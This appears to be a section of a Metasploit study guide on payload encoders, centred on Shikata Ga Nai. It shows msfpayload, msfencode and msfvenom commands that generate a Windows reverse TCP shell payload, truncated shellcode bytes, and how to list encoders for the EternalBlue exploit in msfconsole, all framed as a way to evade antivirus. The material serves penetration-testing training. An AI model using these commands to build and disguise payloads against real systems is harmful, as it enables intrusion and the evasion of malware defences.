 ## Encoders

Encoders have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. These are:
- `x64` 
- `x86`	
- `sparc`	
- `ppc`	
- `mips`

**Shikata Ga Nai** (SGN) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. Far from it. The name (仕方がない) means *It cannot be helped* or *Nothing can be done about it*, and rightfully so if we were reading this a few years ago.

To encode a payload:
```console
zero@pio$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai

my $buf = 
"\xbe\x7b\xe6\xcd\x7c\xd9\xf6\xd9\x74\x24\xf4\x58\x2b\xc9" .
"\x66\xb9\x92\x01\x31\x70\x17\x83\xc0\x04\x03\x70\x13\xe2" .
```

Without encoding will be:
```console
zero@pio$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl 

my $buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
```

[Here](https://hatching.io/blog/metasploit-payloads2/) are an explanation of Shikata Ga Nai.

To encode inside the msf:
```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15 
msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders

Compatible Encoders
===================

   #  Name              Disclosure Date  Rank    Check  Description
   -  ----              ---------------  ----    -----  -----------
   0  generic/eicar                      manual  No     The EICAR Encoder
   1  generic/none                       manual  No     The "none" Encoder
   2  x64/xor                            manual  No     XOR Encoder
   3  x64/xor_dynamic                    manual  No     Dynamic key XOR Encoder
   4  x64/zutto_dekiru                   manual  No     Zutto Dekiru
```
